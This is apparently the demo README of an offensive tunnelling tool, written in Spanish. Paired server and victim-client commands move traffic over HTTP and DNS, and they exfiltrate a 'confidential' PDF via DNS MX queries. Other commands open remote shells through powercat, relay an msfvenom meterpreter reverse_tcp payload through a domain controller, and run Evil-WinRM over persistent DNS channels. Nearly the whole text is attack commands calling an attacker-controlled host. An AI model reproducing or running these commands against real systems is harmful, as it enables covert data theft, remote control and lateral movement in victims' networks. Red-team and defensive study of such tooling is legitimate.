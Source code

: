 # DEMO 1: Canalizando por HTTP

## GET (URI)

Servidor:
```
./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k securekeyblabla -vv
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:http -w "--hostname 192.168.122.209 --port 80" -k securekeyblabla -vv
```

## GET (custom URI)

Servidor:
```
./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k securekeyblabla -vv -w "--uri /?token="
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:http -w "--hostname 192.168.122.209 --port 80 --uri /?token=" -k securekeyblabla -vv
```

## GET (header)

Servidor:
```
./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k securekeyblabla -vv -w "--header laravel_session"
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:http -w "--hostname 192.168.122.209 --port 80 --header laravel_session" -k securekeyblabla -vv
```

## POST (data)

Servidor:
```
./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k securekeyblabla -vv -w "--method POST --post-field data"
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:http -w "--hostname 192.168.122.209 --port 80 --method POST --post-field data" -k securekeyblabla -vv
```

# DEMO 2: Canalizando por DNS

## TXT Query

Servidor:
```
./ms.py -m io:dns -s "--hostname 0.0.0.0 --port 53" -k securekeyblabla -vv
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:dns -w "--hostname 192.168.122.209 --port 53" -k securekeyblabla -vv
```

## MX Query

Servidor:
```
./ms.py -m io:dns -s "--hostname 0.0.0.0 --port 53" -k securekeyblabla -vv -w "--queries MX"
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:dns -w "--hostname 192.168.122.209 --port 53 --query MX" -k securekeyblabla -vv
```

# DEMO 3: Exfiltración de ficheros DNS

Servidor:
```
./ms.py -m io:dns -s "--hostname 0.0.0.0 --port 53" -k securekeyblabla -vv -w "--queries MX" > confidential.pdf
```

Cliente (desde cmd)
```
type "Confidential Document Form CDF - 006575.PDF" | C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m io:dns -w "--hostname 192.168.122.209 --port 53 --query MX --multiple --max-size 150" -k securekeyblabla -vv
```

Cliente (Desde PS)
```
Get-FileHash -Algorithm md5 '.\Confidential Document Form CDF - 006575.PDF'
```

# DEMO 4: Ejecución remota de comandos

Servidor
```
./ms.py -m io:dns -s "--hostname 0.0.0.0 --port 53" -k securekeyblabla -vv
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m shell:dns -w "--hostname 192.168.122.209 --port 53" -k securekeyblabla -vv
```

# DEMO 5: Powercat sobre HTTP con tcplisten + io

Servidor
```
./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k securekeyblabla -vv
```

Cliente
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m tcplisten:http -w "--hostname 192.168.122.209 --port 80" -o "--address 127.0.0.1 --port 4444"  -k securekeyblabla -vv
powercat -c 127.0.0.1 -p 4444 -ep
```
# DEMO 6: Meterpreter sobre DNS, usando el DC como proxy para salir

Payload:
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f exe -o mtpt_localhost_4444.exe
```

Servidor
```
./ms.py -m tcpconnect:dns -s "--hostname 0.0.0.0 --port 53" -w "--domains customdomain.com" -k securekeyblabla -vv -o "--address 127.0.0.1 --port 5555"
(msfconsole) handler -p windows/x64/meterpreter_reverse_tcp -P 5555 -H 127.0.0.1
```

Cliente:
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m tcplisten:dns -w "--hostname dc1.lab.local --port 53 --domain customdomain.com" -o "--address 127.0.0.1 --port 4444"  -k securekeyblabla -vv
.\mtpt_localhost_4444.exe
```

# DEMO 7: Evil-WinRM sobre DNS, usando el DC como proxy + canales persistentes

Servidor
```
./ms.py -m tcplisten:dns -s "--hostname 0.0.0.0 --port 53" -w "--domains customdomain.com" -k securekeyblabla -vv -o "--address 127.0.0.1 --port 5555 --persist"
evil-winrm -u Administrador -i 127.0.0.1 -P 5555
```

Cliente
```
C:\Users\Victim\AppData\Local\Programs\Python\Python38-32\python.exe .\mc.py -m tcpconnect:dns -w "--hostname 192.168.122.209 --port 53 --domain customdomain.com" -o "--address filesrv.lab.local --port 5985 --persist" -k securekeyblabla -vv
```
